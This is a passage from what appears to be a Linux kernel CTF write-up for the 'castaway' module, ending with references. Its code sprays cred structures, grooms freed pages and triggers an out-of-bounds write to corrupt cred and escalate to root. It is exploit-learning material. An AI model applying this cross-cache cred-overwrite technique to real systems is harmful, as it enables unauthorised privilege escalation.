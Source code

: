 ```c
    /* spray cred to get the isolate pages we released before */
    puts("[*] spraying cred...");
    pipe(check_root_pipe);
    for (int i = 0; i < CRED_SPRAY_NUM; i++) {
        if (simple_clone(CLONE_FILES | CLONE_FS | CLONE_VM | CLONE_SIGHAND, 
                         waiting_for_root_fn) < 0){
            printf("[x] failed at cloning %d child\n", i);
            err_exit("FAILED to clone()!");
        }
    }

    /* free pages for our vulerable objects */
    puts("[*] freeing for vulnerable pages...");
    for (int i = 0; i < PGV_PAGE_NUM; i += 2){
        free_page(i);
    }

    /* spray vulnerable objects, hope that we can make an oob-write to cred */
    puts("[*] trigerring vulnerability in castaway kernel module...");
    memset(buf, '\0', 0x1000);
    *(uint32_t*) &buf[VUL_OBJ_SIZE - 6] = 1;    /* cred->usage */
    for (int i = 0; i < VUL_OBJ_NUM; i++) {
        alloc();
        edit(i, VUL_OBJ_SIZE, buf);
    }

    /* checking privilege in child processes */
    puts("[*] notifying child processes and waiting...");
    write(check_root_pipe[1], buf, CRED_SPRAY_NUM);
    sleep(1145141919);

    return 0;
}

```

## REFERENCE

[https://arttnba3.cn/2021/03/03/PWN-0X00-LINUX-KERNEL-PWN-PART-I/#0x09-Kernel-Heap-Cross-Cache-Overflow-amp-Page-level-Heap-Fengshui](https://arttnba3.cn/2021/03/03/PWN-0X00-LINUX-KERNEL-PWN-PART-I/#0x09-Kernel-Heap-Cross-Cache-Overflow-amp-Page-level-Heap-Fengshui)

[https://bsauce.github.io/2022/11/07/castaways](https://bsauce.github.io/2022/11/07/castaways)

[https://www.willsroot.io/2022/08/reviving-exploits-against-cred-struct.html](https://www.willsroot.io/2022/08/reviving-exploits-against-cred-struct.html)